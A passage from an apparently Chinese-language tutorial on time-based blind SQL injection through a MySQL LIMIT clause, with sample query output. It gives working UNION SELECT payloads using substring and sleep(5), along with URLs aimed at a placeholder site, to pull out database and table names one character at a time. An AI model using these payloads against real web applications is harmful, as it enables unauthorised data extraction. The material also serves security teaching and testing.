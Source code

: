 ```plain
// 演示数据
mysql> SELECT schema_name FROM information_schema.schemata LIMIT 0,1;
+--------------------+
| schema_name        |
+--------------------+
| information_schema |
+--------------------+
1 row in set (0.00 sec)
```

web语句: http://www.test.com/limit_sql.php?limit=1 union select 1,if(substring((SELECT schema_name FROM information_schema.schemata LIMIT 0,1),1,1)='i',sleep(5),1),3,4,5,6,7



读取1库库名第一个字: select * from tdb_goods limit 0,1 union select 1,if(substring((SELECT schema_name FROM information_schema.schemata LIMIT 0,1),1,1)='i',sleep(5),1),3,4,5,6,7



读取1库库名第二个字: select * from tdb_goods limit 0,1 union select 1,if(substring((SELECT schema_name FROM information_schema.schemata LIMIT 0,1),2,1)='n',sleep(5),1),3,4,5,6,7

## 0x05 猜表名

注意: table_schema=xxx 修改为其他库会爆出其他库的数据

例如:

table_schema=database()  会获取当前连接的库数据

table_schema='test' 会获取test库数据

注意: LIMIT 0 修改会爆出不同的表名

例如:

LIMIT 0,1 修改为0 就是出1表

LIMIT 1,1 修改为1 就是出2表

```plain
// 演示数据
mysql> SELECT table_name FROM information_schema.tables where table_schema=database() LIMIT 0,1;
+------------+
| table_name |
+------------+
| tdb_admin  |
+------------+
1 row in set (0.00 sec)
```

web语句: http://www.test.com/limit_sql.php?limit=1 union select 1,if(substring((SELECT table_name FROM information_schema.tables where table_schema=database() LIMIT 0,1),1,1)='t',sleep(5),1),3,4,5,6,7



数据库语句-读取当前库的第一张表名的第一个字: select * from tdb_goods limit 0,1 union select 1,if(substring((SELECT table_name FROM information_schema.tables where table_schema=database() LIMIT 0,1),1,1)='t',sleep(5),1),3,4,5,6,7
